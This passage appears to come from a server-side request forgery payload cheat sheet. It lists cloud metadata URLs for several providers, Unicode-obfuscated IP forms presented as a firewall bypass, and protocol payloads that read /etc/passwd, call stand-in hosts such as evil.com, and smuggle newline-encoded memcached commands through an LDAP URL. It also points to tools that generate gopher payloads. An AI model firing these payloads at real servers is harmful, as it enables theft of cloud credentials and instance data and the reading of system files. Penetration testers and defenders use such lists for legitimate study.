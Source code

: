 ```bash
## Packetcloud

<https://metadata.packet.net/userdata>

## Azure
#  Limited, maybe more exist?
# <https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/>
<http://169.254.169.254/metadata/v1/maintenance>

## Update Apr 2017, Azure has more support; requires the header "Metadata: true"
# <https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service>
<http://169.254.169.254/metadata/instance?api-version=2017-04-02>
<http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text>

## OpenStack/RackSpace 
# (header required? unknown)
<http://169.254.169.254/openstack>

## HP Helion 
# (header required? unknown)
<http://169.254.169.254/2009-04-04/meta-data/> 

## Oracle Cloud
<http://192.0.0.192/latest/>
<http://192.0.0.192/latest/user-data/>
<http://192.0.0.192/latest/meta-data/>
<http://192.0.0.192/latest/attributes/>

## Alibaba
<http://100.100.100.200/latest/meta-data/>
<http://100.100.100.200/latest/meta-data/instance-id>
<http://100.100.100.200/latest/meta-data/image-id>

## Enclosed Alphanumeric
<http://⑯⑨>。②⑤④。⑯⑨｡②⑤④/
<http://⓪ⓧⓐ⑨>｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
Successfully bypassed a SSRF WAF by using a combination of IPV6 + Unicode. Payload for Metadata instances:
http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80
Check images for response difference between 169.254.169.254 and the above payload I shared
```

# Protocols

```bash
file:///etc/passwd
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
ssrf.php?url=sftp://evil.com:11111/
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
# Gopher://
Fortunately, you can use Gopherus[<https://github.com/tarunkant/Gopherus>] to create payloads for several services. Additionally, remote-method-guesser[<https://github.com/qtc-de/remote-method-guesser>] can be used to create gopher payloads for Java RMI services
```
